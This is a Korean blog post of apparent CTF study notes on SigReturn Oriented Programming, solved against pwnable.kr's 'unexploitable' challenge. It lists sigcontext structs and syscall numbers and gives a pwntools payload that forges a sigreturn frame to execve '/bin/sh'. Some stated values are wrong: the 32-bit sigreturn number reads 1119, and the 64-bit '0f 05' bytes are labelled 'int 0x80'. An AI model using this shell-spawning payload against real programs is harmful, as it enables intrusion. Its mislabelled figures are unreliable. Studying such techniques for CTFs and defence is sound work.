 ```yaml
---
title: SROP - SigReturn Oriented Programming
date: 2018-09-24 14:19:53
categories:
- Stack Exploit
- Exploit Tech
tags:
- Sigreturn Oriented Programming
---
```


sigreturn syscall:: signal을 받은 프로세스가 커널모드에서 유저모드로 복귀할때 사용하는 system call



## 32bit sigcontext

```c
struct sigcontext {
             unsigned short gs, __gsh;
             unsigned short fs, __fsh;
             unsigned short es, __esh;
             unsigned short ds, __dsh;
             unsigned long edi;
             unsigned long esi;
             unsigned long ebp;
             unsigned long esp;
             unsigned long ebx;
             unsigned long edx;
             unsigned long ecx;
             unsigned long eax;
             unsigned long trapno;
             unsigned long err;
             unsigned long eip;
             unsigned short cs, __csh;
             unsigned long eflags;
             unsigned long esp_at_signal;
             unsigned short ss, __ssh;
             struct _fpstate *fpstate;
             unsigned long oldmask;
             unsigned long cr2;
};
```

int 0x80: cd 80

sigreturn sysnum: 1119

execve sysnum: 11



## 64bit sigcontext

```c
struct sigcontext {
        unsigned long r8;
        unsigned long r9;
        unsigned long r10;
        unsigned long r11;
        unsigned long r12;
        unsigned long r13;
        unsigned long r14;
        unsigned long r15;
        unsigned long rdi;
        unsigned long rsi;
        unsigned long rbp;
        unsigned long rbx;
        unsigned long rdx;
        unsigned long rax;
        unsigned long rcx;
        unsigned long rsp;
        unsigned long rip;
        unsigned long eflags;           /* RFLAGS */
        unsigned short cs;
        unsigned short gs;
        unsigned short fs;
        unsigned short __pad0;
        unsigned long err;
        unsigned long trapno;
        unsigned long oldmask;
        unsigned long cr2;
        struct _fpstate *fpstate;       /* zero when no FPU context */
        unsigned long reserved1[8];
};
```

int 0x80: 0f 05

sigreturn sysnum: 15

execve sysnum: 59



## Pwntools code

```python
frame = SigreturnFrame(arch="amd64")
frame.rax = 0x3b # execve syscall
frame.rdi = binsh
frame.rip = syscall
frame.rsp = syscall

payload += p64(0xf) # sigreturn syscall
payload += p64(syscall)
payload += str(frame)
```

rip, rax control이 가능해야하고 int 0x80 gadget, "/bin/sh"가 있어야 한다.



------



![srop](https://user-images.githubusercontent.com/36659181/45950611-8a423b80-c03b-11e8-9cec-ea3e1199f9c2.PNG)



srop로 pwnable.kr unexploitable을 풀었다! 확실히 점수에 비해 solver가 엄청많다ㅋㅋㅋ

orange처럼 struct만 맞춰주면 익스는 쉬워서 그런듯.. 진짜 빨리 풀었다ㅋㅋ

그래도 지금까지 푼 문제중에 제일 점수가 높아서 뿌듯ㅎㅎ



------

reference

    http://bashsi.tistory.com/entry/SROP-SigReturn-Oriented-Programming
    https://www.lazenca.net/pages/viewpage.action?pageId=16810357

